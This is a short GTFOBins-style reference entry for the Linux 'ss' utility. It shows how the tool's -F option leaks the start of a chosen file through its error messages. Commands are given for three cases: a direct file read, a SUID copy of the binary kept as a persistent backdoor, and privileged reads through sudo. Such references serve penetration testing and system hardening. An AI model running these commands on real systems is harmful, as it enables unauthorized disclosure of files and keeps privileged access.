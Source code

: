 # GTFOBin: ss

The file content is actually parsed so only a part of the first line is returned as a part of an error message.

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
ss -a -F $LFILE
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which ss) .

LFILE=file_to_read
./ss -a -F $LFILE
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo ss -a -F $LFILE
```